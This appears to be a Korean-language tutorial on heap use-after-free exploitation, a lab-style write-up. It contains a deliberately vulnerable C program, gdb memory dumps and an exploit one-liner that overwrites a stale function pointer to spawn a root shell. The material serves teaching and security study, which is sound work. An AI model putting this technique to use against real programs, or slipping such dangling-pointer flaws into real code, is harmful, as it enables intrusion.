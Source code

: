 # **User After Free**

Heap 영역에 할당을 할때 Free 해준 공간을 다시 재사용하여 발생하는 취약점이다. 만약 함수포인터가 동적할당이 되어있을 경우 실행흐름도 조작 가능하다.  

공격자가 Heap 영역을 할당하거나 해제할 수 있어야하고 해제된 영역의 크기와 같거나 작은 영역을 할당해야 한다.

## **Proof of Concept**

```c
// gcc uaf.c -o uaf
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
typedef struct {
    char name[32];
    void (*print)(void*);
} test;
 
typedef struct {
    char name[128];
} string;
 
void printName(test *t) {
    printf("%s\n", t->name);
}
 
void shell() {
    printf("This is shell!! You know UAF vuln!\n");
    system("/bin/sh");
}
 
int main() {
    test* t1;
    string *s1;
    t1 = malloc(256);
    
    strcpy(t1->name, "I LOVE CHAEYOUNG");
    t1->print = (void*)printName;
    
    t1->print(t1);
    
    free(t1);
    
    s1 = malloc(256);
    
    scanf("%128s", s1->name);
    t1->print(t1);
    return 0;
}
```

malloc() 함수로 Heap을 재할당 하는 부분에서 Breakpoint를 걸고 확인해보면 t1에서 사용했던 함수 포인터(printName)를 확인할 수 있다. t1->name은 fk, bk로 채워진 것을 확인할 수 있다.

```gdb
[-------------------------------------code-------------------------------------]
   0x4006ee <main+82>:	call   0x400500 <free@plt>
   0x4006f3 <main+87>:	mov    edi,0x100
   0x4006f8 <main+92>:	call   0x400540 <malloc@plt>
=> 0x4006fd <main+97>:	mov    QWORD PTR [rbp-0x8],rax
   0x400701 <main+101>:	mov    rax,QWORD PTR [rbp-0x8]
   0x400705 <main+105>:	mov    rsi,rax
   0x400708 <main+108>:	mov    edi,0x4007e3
   0x40070d <main+113>:	mov    eax,0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004006fd in main ()
gdb-peda$ info r rax
rax            0x602010	0x602010
gdb-peda$ x/12gx 0x602010
0x602010:	0x00007ffff7dd1b78               0x00007ffff7dd1b78
0x602020:	0x0000000000000000               0x0000000000000000
0x602030:	0x0000000000400666 <- printName  0x0000000000000000

gdb-peda$ x/3i 0x0000000000400666
   0x400666 <printName>:	push   rbp
   0x400667 <printName+1>:	mov    rbp,rsp
   0x40066a <printName+4>:	sub    rsp,0x10
```

따라서 32 byte를 입력 후 함수 포인터에 &shell()를 입력하면 t1->print(t1)을 호출하므로 shell()을 호출이 가능하다.

```gdb
gdb-peda$ x/12gx 0x602010
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0x4141414141414141
0x602030:	0x4242424242424242 	0x0000000000000000

gdb-peda$ p shell
$1 = {<text variable, no debug info>} 0x400681 <shell>
```

## **Exploit**
```
root@bs-virtual-machine:~/pwnable/uaf# (python -c 'print "A"*32 + "\x81\x06\x40"';cat) | ./uaf
UAF TEST!!!
This is shell!! You know UAF vuln!

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/root/pwnable/uaf
```

**References**  
<https://www.lazenca.net/pages/viewpage.action?pageId=1148139>  
<https://bpsecblog.wordpress.com/2016/10/06/heap_vuln/>  
<https://shotgh.tistory.com/62>  